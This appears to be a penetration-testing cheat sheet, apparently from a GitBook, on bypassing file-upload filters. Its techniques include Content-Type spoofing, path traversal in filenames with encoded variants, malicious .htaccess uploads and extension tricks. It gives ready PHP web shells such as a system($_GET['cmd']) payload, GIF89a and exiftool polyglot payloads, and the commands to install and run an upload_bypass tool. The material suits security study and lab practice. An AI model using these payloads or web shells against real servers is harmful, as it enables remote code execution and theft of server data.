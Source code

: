 # 🗃 File Upload Bypass

{% embed url="https://portswigger.net/web-security/file-upload" %}
Source
{% endembed %}

![File Upload Bypass Technique](<../../../.gitbook/assets/image (41).png>)

### Web shell Upload via **Content-Type restriction** Bypass

When uploading a .php file;

```bash
# Change :
# Content-Type: application/x-php
# to
# Content-Type: image/jpeg
```

### Web shell upload via path traversal

When uploading a php file; You can upload the file to a different directory with lesser controls (a different directory that's not supposed to contain user-supplied files)

```bash
# Change :
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# to
# Content-Disposition: form-data; name="avatar"; filename="../secrets.php"

# You can encode "../" as :
    %2e%2e%2f
    %252e%252e%252f
    ..%c0%af
    ..%ef%bc%8f
# Then access the file with LFI :
# GET /files/avatars/../secrets.php
```

### Overriding the server configuration

Before uploading a php file;

* Servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.
* Apache servers, for example, will load a directory-specific configuration from a file called **.htaccess** if one is present.

```php
# First, upload a malicious .htaccess :
# Content-Disposition: form-data; name="avatar"; filename=".htaccess"
# Content-Type: text/plain

# AddType application/x-httpd-php .l33t

# Then upload the php file with .l33t extention
# Content-Disposition: form-data; name="avatar"; filename="secrets.l33t"
# Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
# or
<?php system($_GET['cmd']); ?>
```

### Web Shell Upload Bypasses Techniques List

**According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections :**

* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: **exploit%2Ephp**
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like **xC0 x2E, xC4 xAE or xC0 xAE** may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
* **Content-Type** —> Change the parameter in the request header using Burp, ZAP etc.
* Put **server executable extensions :** **.php5**, **.shtml**, **.asa**, **.cert**
* Changing letters to **capital** form : **.aSp**, **.PHp3**
* Using **trailing** **spaces** and/or **dots** at the end of the filename like **.asp.. . .... ...** , **.asp** , **.asp.**
* Use of **semicolon** after the forbidden extension and before the permitted extension : **.asp;.jpg** (_Only in IIS 6 or prior_)
* Upload a file with **2 extensions** —> **file.php.jpg**
* Use of **null** **character**—> **file.asp%00.jpg**
* Create a file with a **forbidden** **extension** —> **file.asp:.jpg** or **file.asp::$data**
* <mark style="color:red;">**ALSO : Combination of the above**</mark>

### Remote Code Execution via Polyglot web shell upload

In order to upload a php file where the file verification is done on the server side (checking if it is really a IMAGE file), we can **disguise a php file** **as an image file.**

When uploading a php file :

```php
# You can add :
GIF89a; // at the beginning of the php file or in the burp request

# Burp request
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# Content-Type: application/x-php

# GIF89a at the beginning of the php command
GIF89a;<?php echo file_get_contents('/home/carlos/secret'); ?>
# OR
GIF89a;<?php system($_GET['cmd']); ?>
```

![PHP file disguised as an GIF file](<../../../.gitbook/assets/image (6).png>)

or, Generate a polyglot payload using **exiftool :**

```bash
# example 1
exiftool -Comment="<?php echo 'START ' . 
file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

# example 2
exiftool -Comment="<?php echo 'START ' . 
system($_GET['cmd']); . ' END'; ?>" $input.jpg -o polyglot.php
```

## upload\_bypass

> File upload restrictions bypass by using different bug bounty techniques! Tool must be running with all its assets!

{% embed url="https://github.com/sAjibuu/upload_bypass" %}

### Install

```bash
git clone https://github.com/sAjibuu/upload_bypass.git
cd upload_bypass/
pip3 install -r requirements.txt

python3 ext_bypass.py -u $url -e $extension-file -a $allowed-extension -s $success-msg --location $path-of-uploaded-file
```

### PoC

{% embed url="https://www.youtube.com/watch?v=quFoDysbDto" %}
